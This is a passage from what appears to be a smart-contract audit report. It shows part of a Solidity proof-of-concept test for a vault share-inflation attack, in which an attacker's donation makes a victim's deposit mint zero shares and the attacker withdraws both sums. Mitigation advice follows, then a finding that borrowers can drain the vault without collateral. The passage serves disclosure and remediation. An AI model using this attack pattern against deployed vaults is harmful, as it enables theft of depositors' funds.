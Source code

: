 ```solidity
       uint256 inflatedAmount = 149275995181204;
       asset.transfer(address(vault), inflatedAmount);
       uint256 totalAssets2 = vault.totalAsset();
       assert(totalAssets2 == inflatedAmount + 1);
       vm.stopPrank();

       // Victim now deposits
       vm.startPrank(jim);
       deal(jim, 10 ether);
       uint256 victimDepositAmount = inflatedAmount / 2;
       vault.depositNative{value: victimDepositAmount}(victimDepositAmount, 0);
       uint256 victimShares = vault.balanceOf(jim);
       assert(victimShares == 0);
       vm.stopPrank();

       // Attacker withdraws the whole balance
       vm.startPrank(bob);
       uint256 attackerShares = vault.balanceOf(bob);
       vault.withdraw(attackerShares, 0);
       uint256 attackerBalanceAfterAttack = address(bob).balance;

       // We check that the difference in balance is the attacker's deposited amount + victim's deposited amount
       assert(attackerBalanceAfterAttack - attackerBalanceBeforeAttack == victimDepositAmount + inflatedAmount);
   }

```

**Recommendation:**

UniswapV2 solved this vulnerability by sending a considerable amount of shares to the zero address when totalSupply() = 0. (https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same solution can be applied to this case. Adding a require to not allow minting 0 shares is also recommended.

There also other options for solving the vulnerability (https://blog.openzeppelin.com/a-novel-defense-against-erc4626-inflation-attacks).

## Medium Risk

### BORROWERS CAN DRAIN THE VAULT FREELY

**Severity:** Medium	

**Status:** Acknowledged

**Description**

Borrowers are allowed to borrow assets but they are not paying any collateral so that they can leave with the asset and never pay their debt back. The borrow() function is only callable by users set as borrowers so that any user set as borrower can drain the vault easily and freely.
